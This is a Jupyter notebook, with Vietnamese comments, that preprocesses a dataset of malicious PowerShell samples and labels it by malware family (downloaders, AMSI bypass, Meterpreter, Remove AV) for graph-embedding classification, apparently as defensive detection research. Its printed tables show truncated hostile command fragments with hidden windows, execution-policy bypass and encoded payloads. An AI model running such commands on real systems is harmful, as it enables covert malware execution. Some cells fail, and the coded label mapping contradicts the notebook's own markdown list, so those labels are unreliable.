## Proceed CSV

In [ ]:
# prompt: đọc file csv từ path: /content/drive/MyDrive/dacn/data_unit42.csv

import pandas as pd

# Đường dẫn đến file CSV
file_path = '/content/drive/MyDrive/dacn/data_42.csv'

# Đọc file CSV vào DataFrame
try:
  df = pd.read_csv(file_path)
except Exception as e:
  print(f"Error: {e}")

In [ ]:
print(df.head())

                                       Original Code  \
0  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
1  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
2  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
3  "powershell.exe  -nop -wind hidden -Exec Bypas...   
4  "powershell -window hidden -enc JAAxACAAPQAgAC...   

                                            Filename  \
0  001fd68e5a83c14adf9ae5fd02b4219b05f61f6b5d74f1...   
1  006f5f154f95ceb806c508967fd8eec2e106031369b788...   
2  00764435abfb52cfdd3b19ae03e1eaf4e4ab7a05c4a380...   
3  00a34546b6db32ca0d9f2b6aa25012b873da452a0eb939...   
4  00ac03c8ae8994be7809d8a46387bfb784641e9e4c8ce8...   

                                           Arguments  \
0                          ['-nop', '-noni', '-enc']   
1                         ['-window hidden', '-enc']   
2                                           ['-enc']   
3  ['-nop', '-wind hidden', '-Exec Bypass', '-non...   
4                         ['-window hidden', '

In [ ]:
import re

def extract_executable(input_string):
    # Biểu thức chính quy để tìm các chuỗi 'powershell.exe' có thể có đường dẫn đầy đủ hoặc chỉ là tên tệp
    pattern = re.compile(r'\\\"(.*?)\\\"|(\S+\.exe)|\bpowershell\b', re.IGNORECASE)


    match = pattern.search(input_string)
    if match:
        # Kiểm tra và trả về nhóm phù hợp
        if match.group(1):
            result = match.group(1)
        elif match.group(2):
            result = match.group(2)
        else:
            result = match.group(0)
        # Loại bỏ ký tự "
        result = result.replace('"', '')
        return result
    return None

# Áp dụng hàm extract_executable lên cột 'Original Code' và tạo cột mới 'Path Exec'
df['Path Exec'] = df['Original Code'].apply(extract_executable)

print(df.head())

                                       Original Code  \
0  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
1  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
2  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
3  "powershell.exe  -nop -wind hidden -Exec Bypas...   
4  "powershell -window hidden -enc JAAxACAAPQAgAC...   

                                            Filename  \
0  001fd68e5a83c14adf9ae5fd02b4219b05f61f6b5d74f1...   
1  006f5f154f95ceb806c508967fd8eec2e106031369b788...   
2  00764435abfb52cfdd3b19ae03e1eaf4e4ab7a05c4a380...   
3  00a34546b6db32ca0d9f2b6aa25012b873da452a0eb939...   
4  00ac03c8ae8994be7809d8a46387bfb784641e9e4c8ce8...   

                                           Arguments  \
0                          ['-nop', '-noni', '-enc']   
1                         ['-window hidden', '-enc']   
2                                           ['-enc']   
3  ['-nop', '-wind hidden', '-Exec Bypass', '-non...   
4                         ['-window hidden', '

In [ ]:
from dataclasses import replace

# Assuming df is your DataFrame

def combine_attributes(row):
    """Combines the values of Original Code, Obfuscated Code, and Family Name."""
    Path_Exec = str(row['Path Exec'])
    Arguments = re.sub(r"[\[\]',]", '', str(row['Arguments']))
    Payload = str(row['B64 Decoded'])
    # Customize the separator if needed
    combined_value = f"{Path_Exec} | {Arguments} | {Payload}"
    combined_value = combined_value.replace('|','')
    return combined_value

df['Full Payload'] = df.apply(combine_attributes, axis=1)

print(df.head())

                                       Original Code  \
0  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
1  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
2  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
3  "powershell.exe  -nop -wind hidden -Exec Bypas...   
4  "powershell -window hidden -enc JAAxACAAPQAgAC...   

                                            Filename  \
0  001fd68e5a83c14adf9ae5fd02b4219b05f61f6b5d74f1...   
1  006f5f154f95ceb806c508967fd8eec2e106031369b788...   
2  00764435abfb52cfdd3b19ae03e1eaf4e4ab7a05c4a380...   
3  00a34546b6db32ca0d9f2b6aa25012b873da452a0eb939...   
4  00ac03c8ae8994be7809d8a46387bfb784641e9e4c8ce8...   

                                           Arguments  \
0                          ['-nop', '-noni', '-enc']   
1                         ['-window hidden', '-enc']   
2                                           ['-enc']   
3  ['-nop', '-wind hidden', '-Exec Bypass', '-non...   
4                         ['-window hidden', '

In [ ]:
# prompt: lưu df về

# Lưu DataFrame vào file CSV
output_file_path = '/content/drive/MyDrive/dacn/data_processed.csv'  # Thay đổi đường dẫn nếu cần
try:
    df.to_csv(output_file_path, index=False)  # index=False để không lưu index của DataFrame
    print(f"DataFrame đã được lưu vào: {output_file_path}")
except Exception as e:
    print(f"Lỗi khi lưu file: {e}")

DataFrame đã được lưu vào: /content/drive/MyDrive/dacn/data_processed.csv


In [ ]:
# prompt: in ra các giá trị của trường Family Name

print(df['Family Name'].unique())

['Shellcode Inject' 'Downloader DFSP' 'Powerfun Reverse' 'SET'
 'Downloader DFSP 2X' 'Unicorn' 'PowerShell Empire' 'Downloader Proxy'
 'Meterpreter RHTTP' 'Scheduled Task COM' 'Downloader IEXDS' 'Unknown'
 'AMSI Bypass' 'VB Task' 'Veil Stream' 'PowerWorm' 'Remote DLL'
 'Downloader Kraken' 'TXT C2' 'BITSTransfer' 'Downloader DFSP DPL'
 'Powerfun Bind' 'Unicorn Modified' 'PowerSploit GTS' 'DynAmite Launcher'
 'Remove AV' 'DynAmite KL']


### Convert Family Name -> Label:  Bypass, Downloader, Injector, Payload, TaskExecution


Bypass:
- AMSI Bypass

Downloader:
- Downloader DFSP
- Downloader DFSP 2X
- Downloader DFSP DPL
- Downloader IEXDS
- Downloader Kraken
- Downloader Proxy
- BITSTransfer

Injector:
- Shellcode Inject
- Remote DLL
- Meterpreter RHTTP
- PowerSploit GTS

Payload:
- Powerfun Reverse
- Unicorn
- Unicorn Modified
- PowerShell Empire
- PowerWorm
- TXT C2
- Veil Stream
- DynAmite Launcher
- DynAmite KL

TaskExecution:
- SET
- Scheduled Task COM
- VB Task
- Powerfun Bind
- Remove AV
- Unknown



In [ ]:


def map_family_to_label(family_name):
    if 'Bypass' in family_name or 'Remove AV' in family_name:
        return 'Bypass'
    elif 'Downloader' in family_name or 'Transfer' in family_name:
        return 'Downloader'
    elif 'Inject' in family_name or 'Trojan' in family_name or 'Unicorn' in family_name:
        return 'Injector'
    elif 'Power' in family_name or 'Empire' in family_name or 'Payload' in family_name:
        return 'Payload'
    elif 'Task' in family_name or 'COM' in family_name or 'Scheduled' in family_name:
        return 'TaskExecution'
    else:
        return 'Unknown'

df['Label'] = df['Family Name'].apply(map_family_to_label)
print(df.head())

                                       Original Code  \
0  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
1  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
2  "\"C:\\Windows\\System32\\WindowsPowerShell\\v...   
3  "powershell.exe  -nop -wind hidden -Exec Bypas...   
4  "powershell -window hidden -enc JAAxACAAPQAgAC...   

                                            Filename  \
0  001fd68e5a83c14adf9ae5fd02b4219b05f61f6b5d74f1...   
1  006f5f154f95ceb806c508967fd8eec2e106031369b788...   
2  00764435abfb52cfdd3b19ae03e1eaf4e4ab7a05c4a380...   
3  00a34546b6db32ca0d9f2b6aa25012b873da452a0eb939...   
4  00ac03c8ae8994be7809d8a46387bfb784641e9e4c8ce8...   

                                           Arguments  \
0                          ['-nop', '-noni', '-enc']   
1                         ['-window hidden', '-enc']   
2                                           ['-enc']   
3  ['-nop', '-wind hidden', '-Exec Bypass', '-non...   
4                         ['-window hidden', '

In [ ]:
# prompt: loại bỏ các row có giá trị là unknow có ở cột Label, và hiện số dòng đã loại bỏ

import pandas as pd

# Loại bỏ các hàng có giá trị 'Unknown' trong cột 'Label'
rows_before = len(df)
df = df[df['Label'] != 'Unknown']
rows_after = len(df)
rows_removed = rows_before - rows_after
print(f"Số dòng đã loại bỏ: {rows_removed}")


Số dòng đã loại bỏ: 337


In [ ]:


# Thống kê số lượng mẫu cho mỗi Label
label_counts = df['Label'].value_counts()
print("\nThống kê số lượng mẫu cho mỗi Label:")
print(label_counts)

# Tính tỷ lệ phần trăm cho mỗi Label
label_percentages = (label_counts / len(df)) * 100
print("\nTỷ lệ phần trăm cho mỗi Label:")
label_percentages


Thống kê số lượng mẫu cho mỗi Label:
Label
Injector         1772
Downloader       1522
Payload           417
TaskExecution      21
Bypass             10
Name: count, dtype: int64

Tỷ lệ phần trăm cho mỗi Label:


,count
Label,
Injector,47.354356
Downloader,40.673437
Payload,11.143773
TaskExecution,0.561197
Bypass,0.267237


In [ ]:

columns_to_keep = ['Full Payload', 'Label']
df = df[columns_to_keep]
output_file_path = '/content/drive/MyDrive/dacn/data_2112.csv'  # Thay đổi đường dẫn nếu cần
df.to_csv(output_file_path, index=False)


## Token

In [ ]:
!pip install node2vec

In [ ]:
# prompt: đọc file csv từ path: /content/drive/MyDrive/dacn/data_unit42.csv

import pandas as pd

# Đường dẫn đến file CSV
file_path = '/content/drive/MyDrive/dacn/data_processed.csv'

# Đọc file CSV vào DataFrame
try:
  df = pd.read_csv(file_path)
except Exception as e:
  print(f"Error: {e}")

### rela2vec

In [ ]:

import spacy
import networkx as nx
import pickle

# Load SpaCy model
nlp = spacy.load("en_core_web_sm")

# # Đảm bảo cột "Full Payload" không có giá trị NaN
full_payloads = df["Full Payload"].dropna()

# Dictionary lưu các đồ thị, mỗi đồ thị tương ứng với một payload
graphs = {}

# Xây dựng đồ thị cho từng payload
for idx, payload in enumerate(full_payloads):
    G = nx.Graph()  # Tạo đồ thị mới cho mỗi payload
    doc = nlp(payload)

    # Thêm các node từ các thực thể (entities)
    for ent in doc.ents:
        G.add_node(ent.text, type=ent.label_)

    # Thêm các cạnh dựa trên các thực thể trong cùng một câu
    for sent in doc.sents:
        entities_in_sentence = [ent.text for ent in sent.ents]
        for i in range(len(entities_in_sentence)):
            for j in range(i + 1, len(entities_in_sentence)):
                G.add_edge(entities_in_sentence[i], entities_in_sentence[j])

    # Lưu đồ thị vào dictionary với key là index của payload
    graphs[idx] = G

# Lưu toàn bộ các đồ thị vào file pickle
with open("/content/drive/MyDrive/dacn/semantic_graph.pkl", "wb") as f:
    pickle.dump(graphs, f)

print(f"Created {len(graphs)} graphs, each corresponding to a payload.")


NameError: name 'full_payloads' is not defined

In [ ]:
with open("/content/drive/MyDrive/dacn/semantic_graph.pkl", "wb") as f:
    pickle.dump(G, f) # Now pickle is defined and can be used

NameError: name 'G' is not defined

In [ ]:
from node2vec import Node2Vec
import numpy as np

# Dictionary để lưu vector của mỗi đồ thị
graph_vectors = {}

# Lặp qua tất cả các đồ thị trong `graphs`
for idx, G in graphs.items():
    if len(G.nodes) == 0:
        print(f"Graph {idx} is empty and will be skipped.")
        continue  # Bỏ qua các đồ thị rỗng

    # Tạo mô hình Node2Vec cho đồ thị hiện tại
    node2vec = Node2Vec(G, dimensions=128, walk_length=30, num_walks=200, workers=4)
    model = node2vec.fit(window=10, min_count=1, batch_words=4)

    # Tính vector đại diện cho đồ thị bằng cách lấy trung bình của các vector node
    node_embeddings = model.wv
    graph_vector = np.mean([node_embeddings[node] for node in G.nodes], axis=0)

    # Lưu vector của đồ thị vào dictionary
    graph_vectors[idx] = graph_vector
print(f"Converted {len(graph_vectors)} graphs to vectors.")

# Kiểm tra kết quả
for idx, vec in graph_vectors.items():
    print(f"Graph {idx}: Vector shape = {vec.shape}")


Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/10 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/20 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

